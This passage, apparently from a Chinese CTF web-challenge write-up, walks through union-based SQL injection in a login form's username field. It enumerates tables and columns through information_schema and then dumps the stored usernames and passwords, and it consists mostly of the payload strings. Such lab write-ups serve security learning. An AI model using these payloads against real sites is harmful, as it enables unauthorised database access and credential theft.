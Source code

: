 geek

#### 1.2.2 查询数据表

username=1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()-- -&password=1

![image-20231031235830073](CTF(WEB)image/image-20231031235830073.png)

geekuser , l0ve1ysq1

#### 1.2.3 查询字段

username=1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='geekuser'-- -&password=1

![image-20231101000929859](CTF(WEB)image/image-20231101000929859.png)

geekuser : id,username,password

username=1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'-- -&password=1

![image-20231101001112037](CTF(WEB)image/image-20231101001112037.png)

l0ve1ysq1: id,username,password

#### 1.2.4 查询数据表

username=1'union select 1,2,group_concat(username,password) from geekuser -- -&password=1
